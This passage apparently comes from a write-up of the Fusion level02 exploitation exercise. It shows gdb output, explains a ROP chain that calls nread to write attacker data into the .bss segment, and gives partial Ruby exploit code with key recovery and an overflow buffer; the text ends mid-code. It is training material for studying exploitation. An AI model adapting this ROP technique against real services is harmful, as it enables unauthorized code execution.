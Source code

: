 {% highlight bash %}
(gdb) maintenance info sections
Exec file:
    `/opt/fusion/bin/level02', file type elf32-i386.
    ...
    [25]     0x804b420->0x804b500 at 0x00002418: .bss ALLOC
    ...
{% endhighlight %}

Lets build a ROP chain to store arbitrary data as `0x0804b420`

_Note: Preferably we would execute a `mprotect` call to change the stack memory as executable, then execute an arbitrary payload. Unfortunately most of the gadgets are not very useful and I was not able to figure out a rop chain to execute `mprotect`._

## <a name="first-rop-chain---nread"></a> First ROP chain - nread
---

We control the value of eip, lets set eip to execute the nread function, which is located:

{% highlight bash %}
(gdb) p *nread
$1 = {ssize_t (int, void *, size_t)} 0x804952d <nread>
{% endhighlight %}

The `nread` function will expect the stack to have a return address and 3 function arguments: a file descriptor to read from, a buffer to write data, and a length argument. Since we control the values on the stack we can put arbitrary values at these locations.

The fake stack frame will:

- Return to `0xdeadbeef`
- Use the 0 file descriptor to read from the socket
- Write data to the bss segment at `0x0804b420
- Read the amount of data we plan to send

The fake stack frame is created like so:

{% highlight Ruby %}
def exploit
  # Open the TCP connection
  connect

  # Receive initial messages
  buffered_recv(57)

  # Recover the encryption key
  data = "A" *128
  encrypted_data = encrypt(data.length, data)
  key = xor_encrypt(data, encrypted_data)

  # Created enough data to cause a crash
  prejunk = "A" * 0x20010

  cmd = "A" * 32

  ropbuf = [0x0804952d].pack('V') # ret overwrite with addr of nread
  ropbuf += [0xdeadbeef].pack('I') # return of new frame
  ropbuf += [0x00000000].pack('I') # arg0: filedes
  ropbuf += [0x0804b420].pack('V') # arg1: buf ptr
  ropbuf += [cmd.length].pack('I') # arg2: length
